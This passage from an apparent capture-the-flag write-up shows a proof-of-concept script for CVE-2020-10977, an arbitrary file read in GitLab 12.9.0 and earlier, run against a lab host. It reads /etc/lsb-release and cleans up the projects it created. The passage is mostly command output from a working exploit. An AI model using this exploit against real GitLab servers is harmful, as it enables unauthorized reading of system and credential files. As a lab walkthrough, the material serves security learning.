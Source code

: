 ```

oxdf@parrot$ python cve_2020_10977.py https://git.laboratory.htb 0xdf 0xdf0xdf
----------------------------------
--- CVE-2020-10977 ---------------
--- GitLab Arbitrary File Read ---
--- 12.9.0 & Below ---------------
----------------------------------

[>] Found By : vakzz       [ https://hackerone.com/reports/827052 ]
[>] PoC By   : thewhiteh4t [ https://twitter.com/thewhiteh4t      ]

[+] Target        : https://git.laboratory.htb
[+] Username      : 0xdf
[+] Password      : 0xdf0xdf
[+] Project Names : ProjectOne, ProjectTwo

[!] Trying to Login...
[+] Login Successful!
[!] Creating ProjectOne...
[+] ProjectOne Created Successfully!
[!] Creating ProjectTwo...
[+] ProjectTwo Created Successfully!
[>] Absolute Path to File : /etc/lsb-release
[!] Creating an Issue...
[+] Issue Created Successfully!
[!] Moving Issue...
[+] Issue Moved Successfully!
[+] File URL : https://git.laboratory.htb/0xdf/ProjectTwo/uploads/4a8e600fea969e736ffa05fa84f1d14d/lsb-release

[>] Absolute Path to File :

```

Now I’ll enter a filename, and it works:

```

[>] Absolute Path to File : /etc/lsb-release
----------------------------------------

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.6 LTS"
----------------------------------------

```

On exiting, it cleans up as well:

```

[>] Absolute Path to File : ^C
[-] Keyboard Interrupt
[!] Deleting ProjectOne...
[+] ProjectOne Successfully Deleted!
[!] Deleting ProjectTwo...
[+] ProjectTwo Successfully Deleted!

```
